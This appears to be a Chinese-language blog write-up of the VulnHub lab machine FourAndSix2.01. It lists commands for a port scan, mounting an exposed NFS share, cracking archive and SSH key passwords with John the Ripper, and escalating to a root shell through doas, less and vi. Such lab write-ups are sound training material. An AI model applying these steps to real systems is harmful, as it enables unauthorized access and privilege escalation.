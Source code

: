 +++
title = '0x002 FourAndSix2.01'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# IP&端口扫描

```
sudo nmap -Pn -sS -p- -sV  192.168.154.130
```

![](/vulnhub_img/WEBRESOURCE45460ef9fe8d8f4de9fccc017dd36244截图.png)

# 挂载NFS

```
sudo mount -t nfs 192.168.154.130:/home/user/storage ./storage
```

# 破解解压密码

```
7z2john backup.7z > hash3
john -wordlist=/usr/share/wordlists/rockyou.txt hash3
```

# 发现图片和私钥

图片内没有东西，私钥链接需要密码：

![](/vulnhub_img/WEBRESOURCEb78f860910caa1eafc7b0f4a9b55bff5截图.png)

# 破解rsa私钥密码

方式与上面一致

![](/vulnhub_img/WEBRESOURCE38b881339b33a84247dd712004ba787e截图.png)

# 提权

SUID提权：

```
find / -perm -u=s -type f 2>/dev/null
```

![](/vulnhub_img/WEBRESOURCE3897cdce7c776f8933a5f679f20638de截图.png)

查找命令相关文件：

```
find / -name *doas* -type f 2>/dev/null
```

![](/vulnhub_img/WEBRESOURCEfaa371dfa93e8d3cbfb15e92deab123d截图.png)

根据提示来看，使用以下命令：

```
doas /usr/bin/less /var/log/authlog
```

然后按V来使用VI编辑器，然后输入：！sh来获得root shell

![](/vulnhub_img/WEBRESOURCE1a69288e2eed33e3a2ca48eb14b0a473截图.png)

# 总结

用doas的高权限运行/usr/bin/less查看/var/log/authlog，然后调用VI编辑器，通过VI编辑器可以获得高权限sh shell。